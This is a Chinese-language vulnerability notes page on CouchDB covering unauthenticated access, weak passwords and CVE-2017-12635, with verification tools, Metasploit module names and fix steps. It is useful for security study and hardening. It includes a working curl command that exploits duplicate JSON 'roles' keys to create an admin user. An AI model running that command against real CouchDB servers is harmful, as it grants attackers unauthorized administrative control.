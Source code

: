 # couchdb
默认使用5984端口。如使用ssl协议，则监听6984端口。CouchDb是一个存储Json文档的数据库。CouchDB是一个完全包含Web的数据库。使用JSON文档存储数据。使用Web浏览器通过HTTP访问您的文档。
## couchdb未授权访问漏洞&弱口令漏洞
### 漏洞说明
HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。在官方配置文档中对HTTP Server的配置有WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。
### 涉及范围
全版本
### 验证方法
验证脚本: poc_couchdb_unauth.py
msfconsole:auxiliary/scanner/couchdb/couchdb_login
浏览器: `http://host:port/_config/` `http://host:port/_utils/`

### 利用方法
msfconsole:exploit/linux/couchdb/couchdb_unauth_exec
pocsuite: poc_couchdb_unauth.py --attack
other: 一键利用

### 修复方式
1. 指定CouchDB绑定的IP （需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 文件中找到 `bind_address = 0.0.0.0`，把 0.0.0.0 修改为 127.0.0.1 ，然后保存.(修改后只有本机才能访问CouchDB)
2. 设置访问密码（需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 中找到`[admins]`字段配置密码。
3. 设置WWW-Authenticate，强制认证。

## couchdb垂直越权漏洞 CVE-2017-12635
### 漏洞说明
CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。可以被利用于，非管理员用户赋予自身管理员身份权限。
### 涉及范围
小于 1.7.0 以及 小于 2.1.1
### 验证方法
验证脚本: poc_couchdb_outrange.py
手工验证: 见利用方法bash

### 利用方法
```bash
# 新建用户
curl -X PUT -d '{"type":"user","name":"oops","roles":["_admin"],"roles":[],"password":"123456"}' http://host:port/_users/org.couchdb.user:oops -H "Content-Type:application/json"
# 访问http://host:port/_utils/ 使用oops:123456即可登录
```

### 修复方式
1. 所有用户都应升级到CouchDB 1.7.1或 2.1.1。
2. 配置HTTP API配置参数，针对敏感配置信息加入黑名单。